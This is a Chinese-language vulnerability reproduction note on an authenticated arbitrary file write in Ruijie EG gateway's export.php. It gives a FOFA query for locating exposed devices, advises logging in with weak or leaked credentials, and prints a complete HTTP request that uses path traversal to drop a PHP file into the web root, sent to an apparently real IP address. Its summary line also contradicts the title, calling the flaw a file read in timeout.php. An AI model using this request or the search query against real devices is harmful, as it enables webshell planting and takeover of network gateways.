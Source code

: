 # 锐捷EG易网关export后台任意文件写入

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**

<font style="color:rgb(38, 38, 38);">锐捷EG易网关timeout.php后台任意文件读取漏洞 </font>

**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

锐捷 EG易网关  
**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**  
<font style="color:rgb(38, 38, 38);">●登录页面</font>

<font style="color:rgb(38, 38, 38);">fofa:</font>`app="Ruijie-EG易网关" `

![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/vMasNoG8fS1LMggm/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-994856.webp)

![1711943727100-3a29a6a6-7b50-4246-af35-4ebf47636d48.png](./img/vMasNoG8fS1LMggm/1711943727100-3a29a6a6-7b50-4246-af35-4ebf47636d48-136735.png)

  
**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**  
1通过弱口令或账号密码泄露漏洞登录后台获取cookie  


![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/vMasNoG8fS1LMggm/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-475248.webp)

2通过上一步获取的cookie执行命令

```plain
POST /vwan_pi/export.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=bnrul7jabde55u5moo2a4q57a0; helpKey=home_sys;user=admin
X-Requested-With: XMLHttpRequest
Host: 117.40.253.197:4430
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 53

content=<?php phpinfo();?>&filename=../../html/oo.php
```

![1714062627441-f53045aa-fcb5-455f-9c4c-611f093e6e5c.png](./img/vMasNoG8fS1LMggm/1714062627441-f53045aa-fcb5-455f-9c4c-611f093e6e5c-894916.png)



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rohc9xgqqcvcb1xr>